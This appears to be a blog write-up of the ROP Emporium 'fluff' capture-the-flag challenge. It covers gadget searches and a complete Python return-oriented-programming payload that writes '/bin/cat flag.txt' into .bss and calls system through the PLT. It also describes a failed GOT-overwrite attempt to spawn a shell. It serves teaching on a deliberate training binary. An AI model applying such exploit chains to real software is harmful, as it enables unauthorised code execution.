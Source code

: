 ```yaml
---
title: 06_fluff
categories: [series, rop_emporium]
---
```


# ROP Emporium fluff

* **Tools:** IDA Free 7.0, gdb-gef, ropper, readelf
* **Prerequistes:** Stack frame
* **Download solution:** [main.py](/assets/series/rop_emporium/main.py)

## Overview

> "The concept here is identical to the write4 challenge. The only difference is we may struggle to find gadgets that will get the job done."

This one has funky `xor` gadgets, but it's still possible to write where we want.

## #Fails
Dear diary,
today I had a lot of fun but also experimented some frustration. I tried several things that didn' work, but in the end I got the flag. It stated with an idea like this: 
because `_fgets()` returns a pointer to the input buffer, I tried to write `/bin/sh` on the stack and then to overwrite the `.got.plt` entry of `_memset()` with the address of `_system()`, and finally to return to `mov rdi, rax; call _memset()`. I seemed to work (at least according to **ps**, and **gdb** indicated the creation of a child process), but I was unable to use this new shell. I tried a second time, replacing `"/bin/sh"` by `"/bin/cat flag.txt"`, but was unable to get the output. In addition, overwritting the `.got.plt` entry of `_memset()` with the one of `_system()` generated a Bus error. I still have to figure out why things went this way, but in the end I opted for an easier solution which is basically the [write4](/posts/ropemporium-write4) challenge with `xor`.
Also, this is the first challenge for which returning to instruction `call system` majestically failed to execute the commandline pointed by `edi`; the fix was to return to `plt.system`.

## Function pwnme()

The function `pwnme()` calls `_fgets()`, and `_fgets()` accepts up to 0x220 input bytes:
```
0x00000000004007EC    mov     rdx, cs:stdin@@GLIBC_2_2_5 ; stream
0x00000000004007F3    lea     rax, [rbp+s]
0x00000000004007F7    mov     esi, 200h       ; n
0x00000000004007FC    mov     rdi, rax        ; s
0x00000000004007FF    call    _fgets
```

## Function usefulFunction():

This function calls `_system()` with `edi` pointing to the string `"/bin/ls"`:
```
0x000000000040080B    mov     edi, offset command ; "/bin/ls"
0x0000000000400810    call    _system
```

## Writeable area

Let's stick with the `.bss` section, 0x30 bytes is large enough to contains the string `"/bin/cat flag.txt_"`:

```bash
readelf --sections fluff
There are 31 section headers, starting at offset 0x1bf8:

Section Headers:
[Nr] Name              Type             Address           Offset
     Size              EntSize          Flags  Link  Info  Align
[...]
[26] .bss              NOBITS           0000000000601060  00001060
     0000000000000030  0000000000000000  WA       0     0     32
[...]
```

## Searching gadgets

We find a memory write gadget:
```bash
ropper --search "mov [%]" -f ../challs/fluff

0x000000000040084e: mov qword ptr [r10], r11; pop r13; pop r12; xor byte ptr [r10], r12b; ret;
```
Okay, `mov qword ptr [r10], r11` is cool if: 
1. We can control `r10`;
2. we can control `r11`. 

But before that, note the `xor [r10], r12b`: it writes to memory, but if we set `r12b` to 0 (thanks to the `pop r12`), the data at `[r10]` won't change. This also means we could chain the `pop/xor/ret` to decode or restore altered data, similarly to the [badchars](/posts/ropemporium-badchars) challenge.  
Now, let's look for `r10`:
```bash
ropper --search "% r10" -f ../challs/fluff
[...]
0x0000000000400840: xchg r11, r10; pop r15; mov r11d, 0x602050; ret; 
``` 
A nice `xchg r11, r10`. In addition, we note that using this gadget will also execute the instruction `mov r11d, 0x602050`. So, at this point we can control `r10` through `r11`, but we don't fully control `r11`. Can we have a better control on it? Let's check: 
```bash
ropper --search "% r11" -f ../challs/fluff
[...]
0x0000000000400822: xor r11, r11; pop r14; mov edi, 0x601050; ret; 
0x000000000040082f: xor r11, r12; pop r12; mov r13d, 0x604060; ret; 
```
Hm. The `xor r11, r12` adds another level of dependency, but the `pop r12` allows to control the full chain.  
In a nushell:
```
; set r10 = pointer
mov r11d, 0x602050  ; hardcoded constraint
pop r12             ; anything we want
xor r11, r12        ; full control on r11
xchg r11, r10       ; full control on r10
; write to [r10]
mov r11d, 0x602050  ; hardcoded constrain
pop r12             ; anything we want
xor r11, r12        ; thus, also anything we want
mov qword ptr [r10], r11 ; full control on [r10]
```
Finally, we need a gadget to set `edi` to points to the commandline to execute:
```bash
ropper --search "pop ?di" -f fluff
[...]
0x00000000004008c3: pop rdi; ret; 
```

## ROP the things

```python
# Fill buffer
payload = b''
payload += b'\x41\x41\x41\x41\x41\x41\x41\x41'
payload += b'\x41\x41\x41\x41\x41\x41\x41\x41'
payload += b'\x41\x41\x41\x41\x41\x41\x41\x41'
payload += b'\x41\x41\x41\x41\x41\x41\x41\x41'
payload += b'\x42\x42\x42\x42\x42\x42\x42\x42'

# Round 1
# set r10 = 0x00601060 (.bss)
payload += b'\x45\x08\x40\x00\x00\x00\x00\x00'  # mov r11, 602050; ret
payload += b'\x32\x08\x40\x00\x00\x00\x00\x00'  # pop r12; mov r13, junk; ret
payload += b'\x30\x30\x00\x00\x00\x00\x00\x00'  # xorkey = 0x3030; (0x602050^0x3030=0x601060)
payload += b'\x2f\x08\x40\x00\x00\x00\x00\x00'  # xor r11, r12; pop r12; mov r13,junk;ret
payload += b'\x7f\x42\x09\x6e\x2f\x63\x61\x74'  # xorkey 2 (tac/nib/ ^ 602050)
#payload += b'\x7f\x42\x09\x6e\x2f\x73\x68\x00'  # xorkey 2 (\x00hs/nib/ ^ 602050)
payload += b'\x40\x08\x40\x00\x00\x00\x00\x00'  # xchg r10, r11; pop r15; mov r11, 602050; ret
payload += b'junk1234'
# set r11="/bin/cat"
payload += b'\x2f\x08\x40\x00\x00\x00\x00\x00'  # xor r11, r12; pop r12; mov r13,junk; ret
payload += b'junk5678'
payload += b'\x4e\x08\x40\x00\x00\x00\x00\x00'  # mov [r10], r11; pop r13; pop r12; xor [r10], r12b; ret
payload += b'junk9abc'
payload += b'\x00\x00\x00\x00\x00\x00\x00\x00'  # neutralize the xor r12b

# Round 2
# set r10 = .bss+8
payload += b'\x45\x08\x40\x00\x00\x00\x00\x00'  # mov r11, 602050; ret
payload += b'\x32\x08\x40\x00\x00\x00\x00\x00'  # pop r12; mov r13, junk; ret
payload += b'\x38\x30\x00\x00\x00\x00\x00\x00'  # xorkey = 0x3030; (0x602050^0x3030=0x601060)
payload += b'\x2f\x08\x40\x00\x00\x00\x00\x00'  # xor r11, r12; pop r12; mov r13,junk; ret
payload += b'\x70\x46\x0c\x61\x67\x2e\x74\x78'  # xorkey 2 ("xt.galf " ^ 602050)
payload += b'\x40\x08\x40\x00\x00\x00\x00\x00'  # xchg r10, r11; pop r15; mov r11, 602050; ret
payload += b'junk1234'
# set r11=" flag.tx"
payload += b'\x2f\x08\x40\x00\x00\x00\x00\x00'  # xor r11, r12; pop r12; mov r13,junk; ret
payload += b'junk5678'
payload += b'\x4e\x08\x40\x00\x00\x00\x00\x00'  # mov [r10], r11; pop r13; pop r12; xor [r10], r12b; ret
payload += b'junk9abc'
payload += b'\x00\x00\x00\x00\x00\x00\x00\x00'  # neutralize the xor r12b

# Round 3
# set r10 = .bss+0x10
payload += b'\x45\x08\x40\x00\x00\x00\x00\x00'  # mov r11, 602050; ret
payload += b'\x32\x08\x40\x00\x00\x00\x00\x00'  # pop r12; mov r13, junk; ret
payload += b'\x20\x30\x00\x00\x00\x00\x00\x00'  # xorkey = 0x3030; (0x602050^0x3030=0x601060)
payload += b'\x2f\x08\x40\x00\x00\x00\x00\x00'  # xor r11, r12; pop r12; mov r13,junk; ret
payload += b'\x24\x20\x60\x00\x00\x00\x00\x00'  # xorkey 2 (t ^ 602050)
payload += b'\x40\x08\x40\x00\x00\x00\x00\x00'  # xchg r10, r11; pop r15; mov r11, 602050; ret
payload += b'junk1234'
# set r11="t\x00"
payload += b'\x2f\x08\x40\x00\x00\x00\x00\x00'  # xor r11, r12; pop r12; mov r13, junk; ret
payload += b'junk5678'
payload += b'\x4e\x08\x40\x00\x00\x00\x00\x00'  # mov [r10], r11; pop r13; pop r12; xor [r10], r12b, ret
payload += b'junk9abc'
payload += b'\x00\x00\x00\x00\x00\x00\x00\x00'  # neutralize the xor r12b

# call system
payload += b'\xc3\x08\x40\x00\x00\x00\x00\x00'  # pop edi; ret
payload += b'\x60\x10\x60\x00\x00\x00\x00\x00'  # ->"/bin/cat flag.txt"
#payload += b'\x10\x08\x40\x00\x00\x00\x00\x00'  # call _system(): fails but dunno why
payload += b'\xe0\x05\x40\x00\x00\x00\x00\x00'  # plt.system
```
---
EOF
